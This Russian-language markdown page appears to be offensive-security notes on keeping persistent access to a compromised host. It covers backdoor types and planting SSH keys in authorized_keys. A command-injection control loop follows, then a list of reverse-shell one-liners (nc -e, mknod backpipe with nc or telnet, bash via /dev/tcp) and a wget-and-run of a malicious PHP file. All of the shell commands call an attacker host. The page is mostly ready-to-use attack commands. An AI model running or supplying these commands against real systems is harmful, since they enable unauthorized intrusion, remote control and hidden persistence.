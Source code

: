 # Перманентный доступ

* Аутентификационые данные: добавление своего пользователя, или использование не используемого
* Бинарные бекедоры: закинутые на систему патченые бинарнки
* Бекдор на уровне ядра ОС: сложный способ, но самый скрытный
* web-бекдор — попадание на систему под пользователем под которым запущено веб приложение.

## auth 

`ssh -i privkey user@target`

ключи:

* приватный — /home/user/.ssh/id.(rsa|dsa)
* публичный — /home/user/.ssh/id.(rsa|dsa.pub)

Нужно закинуть публичный ключ на сервис на который нужно ходить.
Файл в домашней директори .ssh/authorized_keys


## Организация канала управления

* web-уязвимость, простейщий случай:
```
while (true); do read cmd; wget -O - http://target/vuln?$cmd; done
```

`vuln` — параметр уязвимый для command imjection  

Варианты создания обратного соединения с возможностью выполнения кода:

* `nc <attack_ip> <port> -e /bin/bush`

* `mknod backpipe p; nc <attack_ip> <port> 0<backpipe | /bin/bash 1>backpipe`

* `/bin/bash -i > /dev/tcp/ <attack_ip> / <port> 0<&1 2>&1`

* `mknod backpipe p; telnet <attack_ip> <port> 0<backpipe | /bin/bash 1>backpipe`

* `telnet <attack_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>`

* `wget -O /tmp/bd.php <url_to_mailcious_file> && php -f /tmp/bd.php`
